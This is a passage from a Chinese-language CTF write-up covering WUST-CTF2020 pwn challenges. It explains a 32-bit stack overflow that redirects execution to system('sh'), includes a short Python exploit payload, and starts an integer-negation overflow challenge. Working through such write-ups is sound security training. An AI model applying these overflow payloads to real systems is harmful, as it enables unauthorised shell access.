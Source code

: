 ```c
int shell()
{
  return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}
```

### 解题思路

32位的elf，函数参数保存在栈中，所以只要覆盖返回地址为system，再多覆盖4字节用作system的参数就行。字符串结尾给的`sh`可以直接用。

### exp

```python
system = 0x08048529
payload = 'A'*28
payload += p32(system) + p32(0x8048650+32)
sl(payload)
```



## number_game

- 题目描述：

  > Author: ColdShield
  >
  > hint: NEG

- 题目附件：[number_game](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/number_game/number_game)

- 考察点：整数溢出(取反)

- 难度：简单

- 初始分值：1000

- 最终分值：919

- 完成人数：16

### 程序分析

程序关键部分如下：

``` c
__isoc99_scanf("%d", &v1);
if ( v1 < 0 ){
    v1 = -v1;
    if ( v1 < 0 )
        shell();
    else
        printf("You lose");
}
```
